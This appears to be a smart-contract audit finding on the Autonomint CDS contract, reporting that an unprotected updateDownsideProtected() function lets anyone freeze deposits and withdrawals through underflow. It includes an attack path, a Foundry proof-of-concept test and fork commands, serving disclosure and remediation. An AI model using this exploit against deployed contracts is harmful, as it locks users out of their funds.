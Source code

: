 Proud Taffy Kestrel

High

# Attacker can freeze all deposits and withdrawals to/from CDS contract

### Summary

The missing access check in `CDS::updateDownsideProtected()` will cause a complete block all deposits and withdrawals of funds for users as an attacker can increase `downsideProtected` value. Also attacker can manipulate stored value of total USDa and USDT deposited in CDS, fees and and cumulative rate calculations.

### Root Cause

In [CDS::updateDownsideProtected()](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L829) there is no access checks, so everyone can increase the `downsideProtected` up to `uint256` type max value. This will affect `totalCdsDepositedAmount` and `totalCdsDepositedAmountWithOptionFees` on [CDS::_updateCurrentTotalCdsDepositedAmount()](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L835:L836) call and will revert [CDS::deposit()](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L234) and [CDS::withdraw()](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L324) due to underflow error.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Attacker calls [CDS::updateDownsideProtected()](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L829) one or multiple times until `downsideProtected` value will be greater than `totalCdsDepositedAmount` or `totalCdsDepositedAmountWithOptionFees`.
2. `CDS::deposit()` and `CDS::withdraw()` will revert due to integer underflow.

### Impact

The users can't deposit and withdraw funds.

### PoC

Add this test to the [Borrowing.t.sol](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/test/foundry/Borrowing.t.sol):

```solidity
    function testUpdateDownsideProtected() public {
        // attacker can increase `CDS.downsideProtected`
        contractsA.cds.updateDownsideProtected(type(uint128).max);

        vm.startPrank(USER);

        contractsA.usdt.mint(address(USER), 5000000000);
        uint256 usdtBalance = contractsA.usdt.balanceOf(address(USER));
        contractsA.usdt.approve(address(contractsA.cds), usdtBalance);

        // all deposits and withdrawals with value less than `CDS.downsideProtected` will revert
        vm.expectRevert(stdError.arithmeticError);
        contractsA.cds.deposit{value: globalFee.nativeFee}(
            uint128(usdtBalance),
            0,
            true,
            uint128(usdtBalance),
            ETH_PRICE
        );

        vm.stopPrank();
    }
```

Run `anvil`: `anvil --fork-url https://mainnet.mode.network`. 
Run the test: `forge test --fork-url http://127.0.0.1:8545 --match-contract BorrowTest --match-test testUpdateDownsideProtected`


### Mitigation

Add access modifier to the `CDS::updateDownsideProtected()`